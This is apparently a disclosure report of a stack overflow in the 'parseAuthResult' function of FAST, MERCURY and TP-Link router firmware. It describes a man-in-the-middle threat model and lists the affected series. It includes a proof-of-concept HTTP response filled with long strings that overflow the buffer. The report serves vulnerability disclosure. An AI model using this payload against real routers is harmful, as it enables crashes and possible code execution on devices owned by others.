

# parseAuthResult  Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `parseAuthResult` function`.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FAST: FW, FAC, FR series (e.g., FW325R, FR100P-AC, FAC1900R, FAC1200R)
- MERCURY: D, M, MW series (e.g., M6G, D196G, MW310R, MW351R, D121G)
- TP-Link: WDR, WR, R, WA series (e.g., TL-WDR7660, TL-WDR7650, TL-WA933RE)

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `parseAuthResult` handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The data between two `\r\n` in this malicious response is filled a long string.
3. `parseAuthResult` get these data by using `strstr` . However, the length is not checked.
4. Finally, whole string of these data are copyed to the stack by `strncpy` up to ten times and lead to a buffer overflow.




PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n
```
